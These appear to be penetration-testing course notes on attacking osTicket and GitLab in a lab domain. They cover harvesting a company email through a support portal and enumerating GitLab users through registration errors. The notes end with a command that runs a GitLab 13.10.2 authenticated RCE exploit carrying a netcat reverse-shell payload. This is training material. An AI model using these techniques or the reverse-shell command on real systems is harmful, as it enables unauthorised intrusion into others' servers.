


# **osTicket - Discovery & Enumeration**



# **Attacking osTicket**
Suppose we find an exposed service such as a company's Slack server or GitLab, which requires a valid company email address to join. Many companies have a support email such as `support@inlanefreight.local`, and emails sent to this are available in online support portals that may range from Zendesk to an internal custom tool. Furthermore, a support portal may assign a temporary internal email address to a new ticket so users can quickly check its status.

If we come across a customer support portal during our assessment and can submit a new ticket, we may be able to obtain a valid company email address.

This is a modified version of osTicket as an example, but we can see that an email address was provided.



Now, if we log in, we can see information about the ticket and ways to post a reply. If the company set up their helpdesk software to correlate ticket numbers with emails, then any email sent to the email we received when registering, `940288@inlanefreight.local`, would show up here. With this setup, if we can find an external portal such as a Wiki, chat service (Slack, Mattermost, Rocket.chat), or a Git repository such as GitLab or Bitbucket, we may be able to use this email
 to register an account and the help desk support portal to receive a sign-up confirmation email.

# **Gitlab - Discovery & Enumeration**

The only way to footprint the GitLab version number in use is by browsing to the `/help`
page when logged in. If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version.

## GitLab Enum Users

Suppose the organization did not set up GitLab only to allow company emails to register or require an admin to approve a new account. In that case, we may be able to access additional data.

[GitLab Community Edition (CE) 13.10.3 - User Enumeration](https://www.exploit-db.com/exploits/49821)

We can also use the registration form to enumerate valid users (more on this in the next section). If we can make a list of valid users, we could attempt to guess weak passwords or possibly re-use credentials

On this particular instance of GitLab (and likely others), we can also enumerate emails. If we try to register with an email that has already been taken, we will get the error `1 error prohibited this user from being saved:  Email has already been taken`. As of the time of writing, this username enumeration technique works with the latest version of GitLab. 

## Browsing public projects

The first thing we should try is browsing to `/explore`. 

Public projects can be interesting because we may be able to use them to find out more about the company's infrastructure, find production code that we can find a bug in after a code review, hard-coded credentials, a script or configuration file containing credentials, or other secrets such as an SSH private key or API key

# **Attacking GitLab**

## **Username Enumeration**

[GitHub - dpgg101/GitLabUserEnum: GitLab User Enumeration](https://github.com/dpgg101/GitLabUserEnum)

**Note:** GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.

## **Authenticated Remote Code Execution**

**Found in GitLab Community Edition version 13.10.2 and lower**

### Exploit

[Gitlab 13.10.2 - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/49951)

```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
```
